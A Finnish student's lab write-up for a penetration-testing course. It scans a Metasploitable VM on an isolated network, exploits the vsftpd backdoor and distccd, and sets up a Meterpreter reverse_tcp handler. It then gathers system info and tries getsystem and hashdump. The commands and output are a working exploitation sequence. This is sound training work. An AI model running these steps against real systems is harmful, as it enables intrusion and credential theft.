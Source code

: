 # Social sploit

## Johdanto

Kotitehtävässä h2 tuli jatkaa kokeiluja porttiskannaamisesta (kotitehtävä h1) ja kokeilla muutamia hyökkäyskeinoja Metasploitablen avulla (aloitin tämän jo 1.11 oppitunnilla).

Asensin Metasploitablen ja Kalin sekä HostOnly-ethernetverkon jo aikaisempaa kotitehtävää varten, joten siirryin suoraan tehtävän pariin.

## Tiivistys (kohta X)

Kohdassa X luin "Conducting a penetration test with Metasploit" osuuden Jaswalin kirjasta ja tein seuraavat muistiinpanot;

-Murtotestaamisen avulla voidaan testata järjestelmän haavoittuvaisuuksia, vastatoimia ja mahdollisia reikiä puolustuksessa.

-Metasploitablessa voidaan lähettää erilaisia hyökkäyspaketteja turvallisessa ja vakaassa ympäristössä.

-Kompromisoidussa järjestelmässä voidaan käyttää Meterpreter-ohjelmaa, joka tarjoaa vakaammaan ja monipuolisemman alustan kompromisoidun kohteen tutkimiseen.

### Lähteet

Jaswal 2020: Conducting a penetration test with Metasploit. Luettavissa: https://learning.oreilly.com/library/view/mastering-metasploit/9781838980078/B15076_01_Final_ASB_ePub.xhtml#_idParaDest-31. Luettu: 6.11.2024

## Porttiskannaus (kohdat A-F)

Varmistin ensin tuttuun tapaan, että laitteet ovat irti Internetistä ja että ne saavat yhteyden toisiinsa `ping` komennolla. Molemmat virtuaalikoneet ovat HostOnly-verkossa, jonka lisäksi Kali-virtuaalikoneella on NAT-verkkokortti, joka on irroitettu.

![image](https://github.com/user-attachments/assets/f2a45fd1-2004-48b1-bf73-ef999d3e6b4a)

![image](https://github.com/user-attachments/assets/c3f97317-d817-4b9f-9fa9-b309df1677e5)

_Totesin testein, että koneet ovat irti Internetistä, mutta saavat HostOnly-verkossa toisiinsa yhteyden._

Seuraavaksi etsin Metasploitablen porttiskannaamalla ja tarkistin olevani oikeassa IP-osoitteessa selaimen avulla. Tätä varten avaan ensin Metasploitablen konsolin komennolla `msfconsole` ja tämän jälkeen suoritan aliverkon porttiskannauksen komennolla `db_nmap -sn 192.168.82.0/24`

![image](https://github.com/user-attachments/assets/49d9b573-0d62-43cd-8d61-04c1686fd9a2)

_Aliverkon porttiskannaus_

Aliverkko `192.168.82.0/24` skannattiin ja lopputuloksena 256 IP-osoitteesta vain kaksi oli käytössä, eli Kali osoitteessa `192.168.82.4` ja toinen kone osoitteessa `192.168.82.3`. Nopea Firefox-haku totesi jälkimmäisen osoitteen omaksi Metasploitable-virtuaalikoneeksi.

![image](https://github.com/user-attachments/assets/b5e4c63e-c30a-451a-b11d-1ea532a33242)

_Metasploitablen IP-osoite hakukoneessa._

Seuraavaksi skannasin Metasploitablen perusteellisesti ja tallensin tiedot tarkasteltavaksi. Tämä järjestyy komennolla `db_nmap -A -p- 192.168.82.3` josta `db_` osio tallentaa tulosteen Metasploitablen tietokantoihin ja `-A -p-` spesifoi haun olevan kattava ja koskevan kaikkia portteja. Tämän jälkeen voin käyttää milloin vaan komentoja `hosts` ja `services` skannauksen tuloksien tarkastelua varten. Voin myös suodattaa näistä tuloksista tietoja. Metasploitable ei tunnu tykkäävän merkistä `|`, joten käytin komentoa `services -S apache` suodattaakseni vain apacheen liittyvät tulokset.

![image](https://github.com/user-attachments/assets/80d91c19-1abd-409f-8a49-63f64ae7d25c)

_Porttiskannauksen tulosten tarkastelu jälkeenpäin_

![image](https://github.com/user-attachments/assets/eafd7ac0-f5cf-4545-95e4-d936b4718780)

_Porttiskannauksen tulosten suodattaminen_

Käytin tämän keinon lisäksi myös komentoa `nmap -A -p- -oA scan_result 192.168.82.3`, joka tallentaa samat tiedot kolmeen eri tiedostoon; `scan_result.nmap`, `scan_result.xml` ja `scan_result.gnmap`. Näistä `.nmap` on nmap tuloste skannauksesta, `.xml` sama tuloste `XML` muodossa ja `.gnmap` on helposti `grep`-komennolla haettava tiedosto.

Näistä skannaustulosteista `db_nmap` on hyvä ja nopea saada Metasploitablen konsoliin tarvittavat tiedot jatkotoimia varten. `nmap -oA` sen sijaan antoi monimuotoisemman tulosteen, jota voi olla helpompi hyödyntää esim. työkaluissa ja skriptaamisessa. Käytin itse mielummin `db_nmap`-tulostetta sen käyttöhelppouden vuoksi kunnes tarvitsin tarkempaa tietoa tai tietoa helpommasti tulkittavassa muodossa.

### Lähteet

## Tunkeutuminen (kohdat G-N)

Seuraavaksi kokeilin murtautua Metasploitableen käyttäen takaovea portissa 21 (`vsftpd`). Pystyin tarkistamaan tämän heikkouden olemassaolon aikaisemmin käytetyllä `services -S`-komennolla. Tämän jälkeen valitsin hyökkyksen sekä maalin ja käskin aloittaa hyökkäyksen `exploit`-komennolla.

![image](https://github.com/user-attachments/assets/95bbeb08-bafa-47ed-b5de-82e796431f30)

_Onnistunut vsftpd hyökkäys_

Onnistuneen hyökkäyksen jälkeen aloin valmistelemaan Meterpreteriä, jotta voisin kerätä levittämiseen tarvittavaa tietoa tehokkaasti. Aluksi asetin `vsftpd`-yhteyden taustalle komennolla `background` ja suoritin Meterpreter-yhteyden luomisen seuraavalla komentosarjalla;

```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.82.4
set LPORT 4443
exploit -j
```

Tämä komentopätkä kertoi Meterpreterille tärkeät tiedot kohteesta sekä omasta koneestani. Tämän jälkeen voin päivättää nykyisen yhteyden `sessions 1` komennolla `sessions -u 1` ja täten saada Meterpreter toimimaan `vsftpd`-shellissä komennolla `sessions -i 2`

![image](https://github.com/user-attachments/assets/19638edd-d664-4ea4-9c94-377d808ce815)

_Meterpreter käyttöön_

Nyt kun sain Meterpreterin käyttöön, oli helppoa kerätä tärkeää tietoa koneesta jatkotoimien kannalta. Levittäytymiseen tähtäävä toimija saattaa olla kiinnostunut esimerkiksi kolmesta seuraavasta tiedoista;

```
meterpreter > sysinfo
Computer     : metasploitable.localdomain
OS           : Ubuntu 8.04 (Linux 2.6.24-16-server)
Architecture : i686
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > ipconfig
```

Komento `sysinfo` kertoi koneen melko traagisesta tietoturvatilasta jossa käyttöjärjestelmä, kerneli ja arkkitehtuuri ovat vanhentuneita tai vanhaa teknologiaa. Tämä tarjoaa runsaasti jatkohyökkäysmahdollisuuksia.

```
meterpreter > ipconfig
Interface  2
============
Name         : eth0
Hardware MAC : 08:00:27:29:72:cb
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.168.82.3
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::a00:27ff:fe29:72cb
IPv6 Netmask : ffff:ffff:ffff:ffff::
```

Komento `ipconfig` kertoi lisää koneen verkosta. Sain tätä kautta tietoon aliverkkomaskin `255.255.255.0` jota voi hyödyntää verkon skannaamisessa. Voimme myös olettaa laitteen olevan virtuaalikone sillä MAC-osoite `08:00:27` yhdistetään yleensä VirtualBoxiin.

Lopuksi ajoin komennon `ps`, joka kertoi koneen prosesseista. Huomattavia olivat esimerkiksi `4194 mysqld` josta voisi kaivaa kriittistä dataa, `distccd`, jonka tunnettu heikkous sallii koodin ajamisen etänä sekä `4054 named` eli BIND DNS-palvelin, jotka ovat tunnetusti alttiita hyökkäyksille. Näiden lisäksi prosesseissa on lukuisia muita heikkouksia joiden avulla voisi levittäytyä järjestelmään.

Aikaisemman osion `distccd` on toinen kiinnostava tapa päästä käsiksi koneeseen. Tein ensin hyökkäyksen ja exploittasin sen, kuten aikaisemminkin. Tällä kertaa alkuperäinen payload ei toiminut, joten hain computersecuritystudent oppitunnin verkkosivuilta toisen vaihtoehdon, joka toimi.

![image](https://github.com/user-attachments/assets/88b23cf1-a4db-4c59-b8dc-7350d3b3c03e)

Tämän jälkeen seurasin tuttua Meterpreter-yhteyden muodostamisprosessia, käyttäen aiempi konfigurointeja. Pääsin helposti sisään ja sysinfosta voin päätellä, että ollaan aiemmasta murtautumisesta tutulla paikalla.

![image](https://github.com/user-attachments/assets/d2282d0a-7142-4ddf-aaa3-565fc73fa9bc)

Kokeilin vielä joitain Meterpreterin komentoja kuten `getsystem` ja `hashdump`. Nämä vaativat `priv`-laajennusta toimiakseen, jota en ollut ladannut etukäteen. Muuten pystyin toimia melko vapaasti Metasploitablen shellissä Meterpreterin avulla.

Tallensin lopuksi login tekstitiedostoon `log001.txt` komennolla  `script -fa log001.txt`. Tämä täytyi tehdä ennen msfconsoleen astumista, sillä siellä ei voi suorittaa kaikkia komentoja. `cat` komennolla sain täyden listan tehdyistä komennoista session lopuksi.

### Lähteet

https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/

https://www.computersecuritystudent.com/SECURITY_TOOLS/METASPLOITABLE/EXPLOIT/lesson2/index.html

https://docs.rapid7.com/metasploit/use-meterpreter-locally-without-an-exploit/

https://www.offsec.com/metasploit-unleashed/meterpreter-basics/

## Yleiset lähteet

Pohjana Tero Karvinen 2024: Tunkeutumistestaus -kurssi. Luettavissa: https://terokarvinen.com/tunkeutumistestaus/.

Metaspoitable exploitability guide. Luettavissa: https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/. Luettu 6.11.2024

Tätä dokumenttia saa kopioida ja muokata GNU General Public License (versio 2 tai uudempi) mukaisesti. http://www.gnu.org/licenses/gpl.html

